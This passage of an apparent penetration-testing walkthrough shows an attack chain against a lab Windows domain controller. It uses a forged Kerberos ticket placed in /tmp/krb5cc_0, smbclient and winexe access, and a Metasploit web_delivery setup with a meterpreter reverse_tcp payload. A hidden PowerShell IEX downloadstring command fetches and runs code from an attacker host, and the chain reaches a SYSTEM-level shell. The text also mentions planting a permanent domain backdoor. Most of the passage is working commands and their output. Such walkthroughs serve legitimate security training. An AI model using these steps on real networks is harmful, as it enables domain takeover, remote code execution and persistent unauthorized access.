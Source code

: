 To use this ticket, which is in the Credential Cache (ccache) format, we need to move it to the /tmp directory where the Kerberos tools look for tickets:

$ mv TGT_user01@metasploitable.local.ccache /tmp/krb5cc_0

We can then authenticate to the domain controller:

$ smbclient -W METASPLOITABLE.LOCAL -k //msfdc01/c$
OS=[Windows Server (R) 2008 Standard 6002 Service Pack 2] Server=[Windows Server (R) 2008 Standard 6.0]
smb: \>

and even use winexe to execute commands:

$ winexe -k METASPLOITABLE.LOCAL //msfdc01 whoami
metasploitable.local\user01

In order to get a reverse shell, we can set up a Metasploit delivery mechanism such as Powershell Web Delivery:

20141210-11:29 - 192.168.153.133 exploit(web_delivery) > set TARGET 2
TARGET => 2
20141210-11:30 - 192.168.153.133 exploit(web_delivery) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
20141210-11:30 - 192.168.153.133 exploit(web_delivery) > set LHOST 172.16.3.76
LHOST => 172.16.3.76
20141210-11:30 - 192.168.153.133 exploit(web_delivery) > set LPORT 8686
LPORT => 8686
20141210-11:30 - 192.168.153.133 exploit(web_delivery) > run
[*] Exploit running as background job.

[*] [2014.12.10-11:30:43] Started reverse handler on 172.16.3.76:8686 
[*] [2014.12.10-11:30:43] Using URL: http://0.0.0.0:8080/moKqrqIYh0
[*] [2014.12.10-11:30:43]  Local IP: http://192.168.153.133:8080/moKqrqIYh0
[*] [2014.12.10-11:30:43] Server started.
[*] [2014.12.10-11:30:43] Run the following command on the target machine:
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://172.16.3.76:8080/moKqrqIYh0'))

We then pass the powershell command line to winexe to run as a service:

$ winexe -k METASPLOITABLE.LOCAL //msfdc01 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://172.16.3.76
 :8080/moKqrqIYh0'))"

The result is a reverse shell with administrative privileges on the domain controller. At this point we can create a permanent back-door on the domain to maintain access even if the vulnerability becomes patched in the future.

[*] [2014.12.10-11:36:43] 172.16.80.10     web_delivery - Delivering Payload
[*] [2014.12.10-11:36:43] Sending stage (770048 bytes) to 172.16.80.10
[*] Starting interaction with 1...

meterpreter > getuid
Server username: METASPLOITABLE.LOCAL\user01
meterpreter > sysinfo
Computer        : MSFDC01
OS              : Windows 2008 (Build 6002, Service Pack 2).
Architecture    : x86
System Language : en_GB
Meterpreter     : x86/win32
meterpreter > getsystem
...got system (via technique 1).
